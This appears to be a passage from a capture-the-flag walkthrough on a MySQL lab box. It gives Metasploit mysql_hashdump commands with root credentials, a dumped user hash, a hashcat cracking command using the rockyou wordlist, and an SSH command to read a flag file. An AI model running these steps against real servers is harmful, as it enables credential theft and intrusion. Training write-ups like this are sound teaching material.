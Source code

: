 ```
msf > search mysql_hashdump
```

![](<../../.gitbook/assets/Screenshot from 2020-09-16 20-46-38.png>)

### **What non-default user stands out to you?**

```
msf > use 1
msf > set PASSWORD password
msf > set RHOSTS 10.10.16.169
msf > set USERNAME root
msf > exploit
```

![](<../../.gitbook/assets/Screenshot from 2020-09-16 19-03-54.png>)

### **What is the user/hash combination string?**

> carl:\*EA031893AA21444B170FC2162A56978B8CEECE18

### **What is the password of the user we found?**

```bash
echo -n 'EA031893AA21444B170FC2162A56978B8CEECE18' > mysql.txt
hashcat -a 0 -m 300 mysql.txt /usr/share/wordlists/rockyou.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-16 20-30-12.png>)

### **What's the contents of MySQL.txt**

```
ssh carl@10.10.20.11 cat MySQL.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-16 20-37-20.png>)

## :link: Support Material

{% embed url="https://github.com/polo-sec/writing/raw/master/Security%20Challenge%20Walkthroughs/Networks%202/bash" %}

